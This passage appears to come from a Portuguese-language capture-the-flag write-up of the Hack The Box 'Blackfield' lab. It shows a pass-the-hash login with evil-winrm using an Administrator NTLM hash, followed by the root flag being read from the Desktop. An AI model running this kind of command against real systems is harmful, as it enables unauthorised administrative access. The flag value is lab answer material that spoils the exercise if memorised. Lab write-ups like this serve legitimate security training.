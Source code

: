 ​	Com o hash, podemos logar como administrador via evil-winrm e pegar a flag de root.

```powershell
┌──(kali㉿kali)-[~/…/HTB/Blackfield]
└─$ evil-winrm -i blackfield.local -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
4375a629c7c67c8e29db269060c955cb
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

